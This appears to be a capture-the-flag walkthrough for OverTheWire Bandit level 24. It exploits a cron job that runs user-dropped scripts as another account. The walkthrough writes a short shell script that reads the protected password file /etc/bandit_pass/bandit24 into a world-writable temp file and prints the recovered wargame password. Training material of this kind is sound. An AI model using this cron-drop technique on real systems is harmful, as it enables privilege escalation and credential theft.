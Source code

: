 ## Bandit Level 24 — Bash Scripting

### Description

A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Walkthrough

Let’s head into the cron configuration directory:
```bash
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls -l
total 28
-rw-r--r-- 1 root root 123 Apr 10 14:16 clean_tmp
-rw-r--r-- 1 root root 120 Apr 10 14:23 cronjob_bandit22
-rw-r--r-- 1 root root 122 Apr 10 14:23 cronjob_bandit23
-rw-r--r-- 1 root root 120 Apr 10 14:23 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8  2024 e2scrub_all
-rwx------ 1 root root  52 Apr 10 14:24 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
```
We should read the `cronjob_bandit24` file:
```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
The script `/usr/bin/cronjob_bandit24.sh` is being executed every minute (and at reboot) as user `bandit23`.

Now let’s look at the contents of the script:
```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
* The output of `whoami` command is getting saved in a variable called `myname` (We know this script is being executed as user `bandit24`).
* It changes directory to: `/var/spool/bandit24/foo/`.
* It iterates over all files in that directory, including hidden files (`*` and `.*`), but skips `.` and `..`.
* For each file:
    * It checks if the file's owner is `bandit23`.
    * If so, it executes the file with a 60-second timeout using `timeout -s 9 60` (after 60 seconds, it would send a `SIGKILL` to the process).
    * It then deletes the file, whether it was executed or not.

We could use this behaviour as our favour. Let's write a bash script that reads the password for the next level (stored in `/etc/bandit_pass/bandit24` which we could only read it as user `bandit24`):

```bash
bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.5NY7AV73zq
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.5NY7AV73zq
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ vim mkmaster.sh
```
I wrote the script like this:
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.5NY7AV73zq/pass.out
```
And changed the permission of this directory to allow others to read and write all the files inside it:
```bash
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ touch pass.out
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ chmod 777 -R /tmp/tmp.5NY7AV73zq
```
Now we copy our script to the target directory:
```bash
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ cp mkmaster.sh /var/spool/bandit24/foo/
```
And we wait for a minute; after that we can read `pass.out` to see if our script worked properly or not:
```bash
bandit23@bandit:/tmp/tmp.5NY7AV73zq$ cat pass.out
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
Nice we got the password!